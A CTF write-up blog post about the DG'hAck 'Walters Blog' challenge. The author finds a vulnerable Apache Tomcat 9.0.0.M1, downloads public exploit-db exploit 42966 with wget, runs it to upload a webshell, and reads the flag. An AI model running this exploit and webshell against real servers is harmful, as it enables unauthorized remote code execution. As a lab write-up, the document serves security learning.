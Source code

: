 ```yaml
---
title: "Writeup DG'hAck: Walters Blog"
date: 2020-11-19T05:56:46+01:00
draft: false
tags: ["blog", "security", "ctf", "dghack"]
type: "posts"
showDate: true
---
```


The challenge starts with a minecraft blog:

[![The homepage](/assets/dghack/walters-blog-home.png)](/assets/dghack/walters-blog-home.png)

None of the pages look vulnerable. The URLs themselves don't have any parameters, it's just some static html (eg: `/contact.html`). The contact form doesn't work: when posting something we get a 404.

On that same 404 page, we can notice the apache version:

```
Apache Tomcat/9.0.0.M1
```

Searching for that version on google tells us that this particular version is vulnerable to a RCE. The exploit is available on [exploit database](https://www.exploit-db.com/exploits/42966).

Let's use it:

```
$ wget https://www.exploit-db.com/raw/42966
$ python2 42966 -p pwn -u http://waltersblog3.chall.malicecyber.com
   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    

[@intx0x80]

Uploading Webshell .....
$ ls

bin
boot
dev
entrypoint.sh
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
supervisord.log
supervisord.pid
sys
tmp
usr
var

$ cat flag.txt

flag{i4lW4y5UpD4T3Y0urt0mC@}
```

And there we go, the flag is `i4lW4y5UpD4T3Y0urt0mC@`.

---

[View all of the DG'hAck articles](/tags/dghack).
